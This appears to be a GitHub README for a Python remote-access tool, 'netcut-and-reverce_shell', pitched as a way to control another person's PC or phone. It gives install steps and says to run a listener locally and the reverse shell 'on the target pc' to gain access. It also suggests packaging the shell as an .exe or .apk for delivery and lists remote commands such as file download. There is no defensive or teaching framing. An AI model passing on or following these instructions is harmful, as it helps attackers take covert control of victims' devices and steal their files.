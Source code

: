 ## netcut-and-reverce_shell
###Controlling othe pc or phone with python
__________________________________
#[#] install:<br>
#       ~$git clone #https://github.com/omer-devil/netcut-and-reverce_shell.git<br>
#       and move to the project directory:<br>
#             ~$cd netcut-and-reverce_shellh<br>
#       now install the requirements.<br>
#             ~$pip3 install -r requirements.txt<br>
       
___________________________________
#[#] how to use:<br>
#       first run Net-Cat on your computer:<br>
#               ~$python3 netcat.py<br>
#       then run reverce_shell on the target pc<br>
#               ~$python3 reverce_shell.py<br>
#       and then you get access to the target pc or phone<br>
#       note:-you can conver reverce_shell.py into .exe file or .apk file<br>
#            to conver it to .exe use pyinstaller and<br>
#            for .apk use buildozer<br>
______________________________________
#[#] all the command availabl in netcut-and-reverce_shellh, #with use and example:<br>
#    Commands.                 Use.                                  #Example<br>
#    l-host.                   local-host <command>                  #local-host ls<br>
#    download.                 download <file name>                  #download music.mp4<br>
#    server.                   server <IP:PORT>                      #server 127.0.0.1:468<br>
#    target-ip.                target-ip                             #it shows the target ip<br>
#    output_save.              output_save <True/False>              #output_seve True or output_save False<br>
    <br>
#    help.                     shows this help message<br>
